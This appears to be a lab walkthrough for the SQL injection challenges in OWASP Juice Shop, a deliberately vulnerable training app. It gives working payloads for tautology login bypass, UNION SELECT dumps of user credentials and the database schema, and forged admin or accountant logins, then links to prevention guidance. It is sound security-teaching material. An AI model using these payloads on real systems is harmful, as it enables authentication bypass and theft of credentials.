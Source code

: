 # SQL Injection

This web application is vulnerable to SQL injection attacks specifically reshaping the SQL queries using the following techniques:
* Tautology based injection
* UNION select injection

## SQL injection challenges in OWASP juice-shop web app

|Name   |Description   |Difficulty   |
|---|---|---|
|Login Admin   |Log in with the administrator's user account   |⭐⭐   |
|Login Bender   |Log in with Bender's user account   |⭐⭐⭐   |
|Login Jim   |Log in with Jim's user account   |⭐⭐⭐   |
|Login Chris   |Log in with Chris' erased user account   |⭐⭐⭐   |
|Christmas Special   |Order the Christmas special offer of 2014   |⭐⭐⭐   |
|Database Schema   |Exfiltrate the entire DB schema definition via SQL Injection   |⭐⭐⭐   |
|User Credentials   |Retrieve a list of all user credentials   |⭐⭐⭐⭐   |
|Ephemeral Accountant   |Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user   |⭐⭐⭐⭐   |
|   |   |   |



Before a hacker can  start exploiting an insecure application, s/he must figure out how the application handles **bad** input first.

One way of testing is to put a tick (apostrophe) at the end of a text. Then two things should happen

1. The input is sanitized or cleaned and returns a nice error message.

1. There is no sanitization we get something like below or something blatant or nothing.

## Tick Technique

First enter just an apostrophe in the Email input field. What errors do we get? Then try putting a tick at end of an existing user email like below.

![end-tick](object_Object.png)

The error response is crucial in determining the attack.

What will the attacker see on form page by inputting a single quote? It depends on how the application handles errors in the database. In this case, something nondescript. But what is remarkable is that there are no errors like, "**invalid email address and password**". But... we are seeing SQLite errors. Now the hacker also knows that the input is not being sanitized. And if there is no sanization, there's potential exploitation.

1. go to juice-shop

   login page
   type
   ```
   ' or true;
   ```
    semicolon is used to end a sql statement
   ```
   ' or true -- lkjlsdjlfkjsfsdlsjdlfjs
   ```
   ```
    dkfdk' or true -- blahblah
   ```

1. go to code [login code](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js)

    We expose the code above and the backend sqlite on the web interface.

1. show juiceshop.sqlite

1. By the time the web app sends the query to sqlite, it looks like this.
    ```
    SELECT * FROM Users WHERE email='dkfdk' or true -- blahblah AND password='somehashedpassword'
    ```

    Due to the inclusion of a comment delimiter in the email field the password portion of the query will be ignored.

1. in fact, you can input this with any emails, like:
    ```
    support@juice-sh.op'; -- active
    chris.pike@juice-sh.op'; -- inactive
    ```
**Make everything else irrelevant following the semicolon as it closes the SQL statement**

## UNION based
### **List all products (whether active or not)**
    ')); or ')) --
This includes all products and **')); or ')) --** made other qualifications irrelevant.

### **List all users**
```
anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--

http://localhost:3000/rest/products/search?q=anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```
the nonsensical text after __q=__ is a technique to make the api search for that nonexistent product. but the sql code proceeds with the payload.

### **Voila the schema**
```
http://localhost:3000/rest/products/search?q=sldjfwo')) UNION SELECT sql,2,3,4,5,6,7,8,9  FROM sqlite_master--

```

### **ephemeral accounts**

when you register a new account, from the inspector we know that the fields (or keys) are used.

![columns used](upon_registration.png)


start with
```
' union select 1;
```
It is universal to return from this temp table the 1 record with a single field that has value 1.
From the image above, we see that we need at least 10 columns. Try:

```
' union select 1,1,1,1,1,1,1,1,1,1;
```

It needs exactly 12 columns. We see now that we do not get any SQL errors, but we get a new prompt page.

![2fa auth](2fa_required.png)

We need to experiment a little bit to find out where this  totpSecret should be. But looking at the schema, you'll note that totpSecret is 5th from the last. Try:


```
' union select 1,1,1,1,1,1,1,'' as 'totpSecret',1,1,1,1;
```

Obviously, we can log in with just the totpSecret filled in for this application. Let's try adding an email.

```
' union select * from (select 1,1,'nem@akdm.nt' as 'email',1,1,1,1,'' as 'totpSecret',1,1,1,1);
```
or even add a role:
```
' union select 1,1,1,1,'admin' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
Get points by inserting email of fake accountant:
```
' union select 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
How does it look when sent to database?
```
SELECT * FROM users WHERE email = '' UNION SELECT * FROM (SELECT 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1)
```

## sqlite_master

The SQLite database holds the database schema in the table sqlite_master.
Table definition

The table definition is as follows:

    Type : Type is Index or Table.
    name : Index or table name
    tbl_name : Name of the table
    rootpage : rootpage, internal to SQLite
    sql : The SQL statement, which would create this table.

## API endpoint

1. code [products /rest](https://github.com/bkimminich/juice-shop/blob/master/routes/search.js)

1. code [products /rest/products/search](https://github.com/bkimminich/juice-shop/tree/master/frontend/src/app/Services)


## How to avoid sql injection

1. [protection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)